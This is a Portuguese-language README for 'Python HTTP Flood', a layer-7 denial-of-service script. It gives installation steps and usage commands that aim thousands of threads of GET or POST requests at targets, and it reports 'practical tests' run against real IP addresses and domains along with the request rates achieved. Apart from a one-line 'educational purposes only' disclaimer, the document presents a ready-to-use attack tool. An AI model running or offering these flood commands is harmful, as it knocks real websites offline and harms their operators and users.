

# Python HTTP Flood

Este é um simples script de HTTP Flood desenvolvido em Python.

## Instalação
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Uso 
```sh
python main.py <alvo> <GET/POST> <threads>
Exemplo: python main.py http://51.159.30.249 POST 1500
```

**Nota: Este script deve ser usado apenas para fins educacionais. Não é recomendado ou ético usar este script em sites sem permissão.**

## Configuração de Testes
Os testes foram realizados em diferentes sites para avaliar o desempenho na camada 7 (L7 Non Protected e L7 Non Protected SSL).

### Testes na Prática com Método POST
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION

Comando: `python main.py http://142.171.195.145/HIT POST 500`
- Requisições por segundo:
  - Máxima: 1500
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1

Comando: `python main.py https://nodec.mediathektv.com POST 700`
- Requisições por segundo:
  - Máxima: 2800
  - Média: 1500

### Testes na Prática com Método GET
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION

Comando: `python main.py http://142.171.195.145/HIT GET 500`
- Requisições por segundo:
  - Máxima: 3000
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1

Comando: `python main.py https://nodec.mediathektv.com GET 700`
- Requisições por segundo:
  - Máxima: 2200
  - Média: 1500
